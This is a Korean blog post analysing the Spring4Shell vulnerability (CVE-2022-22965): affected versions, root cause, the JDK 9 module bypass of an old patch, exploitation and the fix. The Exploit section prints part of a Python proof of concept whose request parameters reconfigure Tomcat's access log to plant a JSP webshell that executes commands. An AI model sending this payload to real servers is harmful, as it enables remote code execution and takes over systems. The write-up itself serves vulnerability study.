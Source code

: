 ```yaml
---
title: "CVE-2022-22965 (Spring4Shell) 1-day 분석"
date: 2023-12-17 +0900
categories: [1-day Analysis]
tags: ['CVE-2022-22965', '1-day', 'springframework']
---
```

## 1. Abstract

- Request 파라미터에 `class` 를 이용하여 `classLoader` 접근할 수 있고, 이를 통해 Log 생성 설정을 변경시킬 수 있으며 이를 통해 WebShell 생성을 하고 RCE가 가능하다.

## 2. Vulnerability Analysis

### 2.1 Affect version

- JDK (Java Development Kit) 9 버전 이상
- Spring Framework : 5.3.17 및 5.2.19 이하 버전 (배포 방식 war)

### 2.2 Vulnerability Root Cause

HTTP Request를 보내면 Spring Framework 내부에서는 `bindRequestParameters()` 메소드를 호출한다. 

```java
if (bindingResult == null) {
	WebDataBinder binder = binderFactory.createBinder(webRequest, attribute, name);
	if (binder.getTarget() != null) {
	    if (!mavContainer.isBindingDisabled(name)) {
	        this.bindRequestParameters(binder, webRequest);
	    }
```

`bindRequestParameters()` 는 파라미터로 받은 객체의 속성을 가져오기 위해 내부에서 `getCachedIntrospectionResults()` 메소드를 호출한다.

아래는 `getCachedIntrospectionResults()` 메소드를 호출하기까지의 콜 스택이다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled.png)

Spring4Shell 취약점은 이 `getCachedIntrospectionResults()` 메소드를 호출할 때 발생한다. 

```java
private CachedIntrospectionResults getCachedIntrospectionResults() {
    if (this.cachedIntrospectionResults == null) {
        this.cachedIntrospectionResults = CachedIntrospectionResults.forClass(this.getWrappedClass());
    }

    return this.cachedIntrospectionResults;
}
```

아래의 화면을 보면 `getCachedIntrospectionResults()` 메소드는 wrapping된 객체를 가져오는 데 이 때 `class` 객체도 같이 포함이 되어 있다. 따라서 HTTP Request를 보내는 것 만으로 `class` 객체에 접근할 수 있다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%201.png)

## 3. Exploit

### 3.1 Mitigation & Bypass

`class` 속성을 사용할 수 있지만 CVE-2010-1622 취약점 패치 때문에 바로 `classLoader` 를 호출할 수 없다. 따라서 JDK 9에서 추가된 module 기능을 이용해서 `class.module.classLoader` 와 같이 우회하여 `classLoader` 를 호출해주어야 한다.

#### CVE-2010-1622

- 해당 취약점은 classLoader를 호출하여 다른 클래스들을 연쇄적으로 호출함으로써 최종적으로 원격 코드 실행(RCE)까지 가능한 취약점이다.

해당 취약점을 방어하기 위해서 `PropertyDescriptor` 값에서 classLoader와 protectionDomain 문자열이 있는지 검증하는 로직이 추가되었다.

```java
// This call is slow so we do it once.
PropertyDescriptor[] pds = this.beanInfo.getPropertyDescriptors();
for (PropertyDescriptor pd : pds) {
	if (Class.class == beanClass &&
			("classLoader".equals(pd.getName()) ||  "protectionDomain".equals(pd.getName()))) {
		// Ignore Class.getClassLoader() and getProtectionDomain() methods - nobody needs to bind to those
		continue;
	}
```

2010년에 패치되었던 취약점이 Spring4Shell에서 다시 이용된 이유는 JDK 9가 배포가 되면서 `module` 기능을 같이 배포했기 때문이다.

기존 CVE-2010-1622 에서 익스플로잇하기 위해서 `class.classLoader` 호출한 것을 JDK 9에서는 `class.getModule()` 메소드를 이용하여 `class.module.classLoader` 를 호출함으로서 기존에 패치되었던 로직을 우회할 수 있다.

### 3.2 Exploit Method

#### WebShell Create

`class` 속성을 이용하여  `classLoader` 를 호출하고 Apache Tomcat의 Log 저장 설정을 변경하기 위해서 최종적으로 `getFirst()` 메소드를 호출하여 `AccessLogValve` 의 속성들을 변경시켜주어 webshell 파일을 생성한다.

webshell을 만들기 위해서 변경시켜줄 속성은 다음과 같다.

| Attribute | 설명 |
| --- | --- |
| fileDateFormat | 액세스 로그 파일 이름에서 사용자 지정 타임스탬프를 허용한다. 형식이 지정된 타임스탬프가 변경될 때 마다 파일이 로테이트 된다. |
| directory | 로그 파일이 생성될 directory의 절대 경로 또는 상대 경로가 저장되는 속성, 이 속성이 지정되지 않을 때 기본값은 $CATALINA_BASE의 상대경로로 지정된다. |
| pattern | 기록할 요청 및 응답, 또는 표준 형식을 선택하기 위해 다양한 정보 필드를 식별하는 포맷 레이아웃을 지정하는 속성이다. |
| prefix | 각 로그 파일 이름의 접두사를 지정하는 속성이다. 기본값은 “access_log” 이다. |
| suffix | 각 로그 파일의 이름 끝에 추가되는 접미사를 지정하는 속성이다. |

아래는 `AccessLogValve` 속성을 변경시키는 Spring4Shell POC 코드의 일부이다.

```python
log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
              f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
              f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
              f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"

log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```

- `log_pattern` : `pattern` 속성을 사용해 webshell 내용을 입력한다.
- `log_file_suffix` : `suffix` 확장자를 `.jsp` 로 변경한다.
- `log_file_dir` : `directory` 속성을 사용해 log 파일이 저장될 위치를 지정한다.
- `log_file_prefix` : `prefix` 속성을 사용해 log 파일의 이름을 지정한다.
- `log_file_date_format` : `fileDateFormat` 을 사용해 파일 로테이트 시간을 해제한다.

속성 값들이 변경되는 것을 확인하고자 POC 코드를 실행하기 전의 `AccessLogValve` 속성 값들을 확인하였다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%202.png)

POC 코드를 실행시키고 나서 `fileDataFormat`, `directory`, `pattern`, `prefix`, `suffix` 값이 변경된 것을 확인할 수 있다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%203.png)

POC 코드를 실행시킨 후 webshell 파일이 정상적으로 생성되는 것을 확인이 되었고 webshell 또한 정상적으로 동작이 되었다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%204.png)

webshell을 통해 정상적으로 RCE가 동작 되는 것을 확인했다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%205.png)

## 4. Patch

Spring 측에서는 Spring core에서 `CachedIntrospectionResults` 메소드에서 `classLoader` 의 호출을 막기 위해 `classLoader` 비교 구문을 강화했다. 해당 로직을 강화함으로써 `classLoader` 를 이용한 메소드 호출을 방지하였다.

![Untitled](/assets/img/posts/cve-2022-22964_1day/Untitled%206.png)

## 5. Reference

> [Spring4Shell(CVE-2022-22965) 취약점 원인분석 및 대응방안](https://www.igloo.co.kr/security-information/spring4shellcve-2022-22965-취약점-원인분석-및-대응방안/)

> [SpringShell RCE vulnerability: Guidance for protecting against and detecting CVE-2022-22965 - Microsoft Security Blog](https://www.microsoft.com/en-us/security/blog/2022/04/04/springshell-rce-vulnerability-guidance-for-protecting-against-and-detecting-cve-2022-22965/)

> [Spring4Shell: Security Analysis of the latest Java RCE '0-day' vulnerabilities in Spring - LunaTrace](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)

> [https://docs.spring.io/spring-framework/docs/3.2.5.RELEASE_to_3.2.6.RELEASE/Spring Framework 3.2.6.RELEASE/org/springframework/beans/BeanWrapperImpl.html#getCachedIntrospectionResults()](https://docs.spring.io/spring-framework/docs/3.2.5.RELEASE_to_3.2.6.RELEASE/Spring%20Framework%203.2.6.RELEASE/org/springframework/beans/BeanWrapperImpl.html#getCachedIntrospectionResults())

> [StandardPipeline (Apache Tomcat 8.5.98 API Documentation)](https://tomcat.apache.org/tomcat-8.5-doc/api/org/apache/catalina/core/StandardPipeline.html#getFirst())

> [Apache Tomcat 9 Configuration Reference (9.0.85) - The Valve Component](https://tomcat.apache.org/tomcat-9.0-doc/config/valve.html#Access_Log_Valve/Attributes)

> [Comparing v5.3.17...v5.3.18 · spring-projects/spring-framework](https://github.com/spring-projects/spring-framework/compare/v5.3.17...v5.3.18#diff-de34d8ca8ee09e89bce68a491958bcc09197c49243aa2db6d981ecaa035b2447)

> [](https://github.com/tweedge/springcore-0day-en/blob/main/ANALYSIS_EN.md)

> [ServletContext (Java EE 6 )](https://docs.oracle.com/javaee/6/api///javax/servlet/ServletContext.html#getContext(java.lang.String))

> [https://tomcat.apache.org/tomcat-9.0-doc/config/context.html](https://tomcat.apache.org/tomcat-9.0-doc/config/context.html)